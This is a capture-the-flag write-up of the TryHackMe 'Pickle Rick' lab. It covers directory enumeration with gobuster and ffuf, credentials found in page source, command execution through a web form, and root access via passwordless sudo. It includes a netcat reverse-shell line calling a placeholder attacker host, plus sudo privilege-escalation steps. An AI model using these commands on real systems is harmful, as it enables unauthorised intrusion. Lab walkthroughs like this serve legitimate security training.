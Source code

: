 # Pickle Rick

{% embed url="https://tryhackme.com/room/picklerick" %}

Upon reading the source code in `http://10.10.253.172/`, I found the username `R1ckRul3s` within the comments.

...

```bash
gobuster dir -u ... -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
...
/assets
/robots.txt
/.htaccess
/.htpasswd
...
```

...

From `/robots.txt`:

`Wubbalubbadubdub`

...

```bash
$ ffuf -u http://<target>/FUZZ.php -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
/login.php
/portal.php
...
```

...

```bash
$ ffuf -h -u http://<target>/FUZZ -w .../Apache_common.txt
/login.php
/portal.php
... 
```

I visited the path `/login.php` , and was presented with a login page. I utilized the information we have gathered earlier to discover the username and password combination of `R1ckRul3s` and `Wubbalubbadubdub` respectively.

**Enumerating the webpage**

&#x20;`/portal.php`:

The following comment was found in the source code:

`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

This is a string that has been base64-encoded multiple times. The plaintext value turns out to be `rabbit hole` . Well, is this a clue, or perhaps a directory path value, name of a file, or simply something just to throw us off?

The main interface presented an input form that accepts commands for a Linux environment. This form will be used to enumerate the Linux system and find the ingredients.

### First ingredient

```bash
$ cat Sup3rS3cretPickl3Ingred.txt # does not work
$ more Sup3rS3cretPickl3Ingred.txt # does not work
$ less Sup3rS3cretPickl3Ingred.txt # WORKS!
mr. meeseek hair
```

### Second ingredient

```bash
$ ls /home
rick ubuntu

$ ls /home/rick
second ingredients

$ less '/home/rick/second ingredients' # 'more' and 'cat' disable
1 jerry tear
```

### Third ingredient

I was having difficulty finding the third ingredient from the file system, as most of my attempts at enumerating the directories returned an empty response. Thus, I decided to further enumerate the webpage.

Upon visiting `/denied.php` ,

We are presented with a message: "Only the REAL rick can view this page." This made me wonder, by _REAL rick_, does this mean we have to somehow access this page via the root account?

**SQL Injection attempt**

I attempted a SQL injection attack on the login form, in hopes of potentially discovering the name and password combination of the root, or higher privilege account.

```sql
...
```

The database used in the system seems to either not use an SQL-based database, or is simply not vulnerable to a SQL injection attack.

I decided to focus my efforts back on the shell environment presented in the interface. To provide myself with a more stable shell experience, I tried to establish a remote shell environment through a few methods: reverse shell and SSH connection.

**Attempts to initiate a reverse shell**

```bash
$ perl ...
$ ... # bash
$ ... # python
$ nc <attacker> [port] -e /bin/sh # netcat
```

\
**Attempt to add a new SSH authorized key**&#x20;

```bash
$ ...
```

As mentioned before, access to the third ingredient most likely requires a privileged account. Thus, I attempted to escalate my privileges.

**Linux privilege escalation enumeration**

```bash
$ id
... # no dangerous groups such adm

$ find ..
# no dangerous file privileges

$ sudo -l

Matching Defaults entries for www-data on ip-10-10-49-150:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-49-150:
    (ALL) NOPASSWD: ALL # root privileges without password!!
    
```

**Attempts at abusing my `sudo` privileges to view system logs**

```bash
$ sudo less /var/log/syslog
...

===

```

**Finding the last and final ingredient**

Well, turns out, the 3rd ingredient is not hidden within any log files, but simply in the `/root` directory.&#x20;

```bash
$ sudo ls -la /root
...
3rd.txt
...

$ sudo less /root/3rd.txt
fleeb juice
```

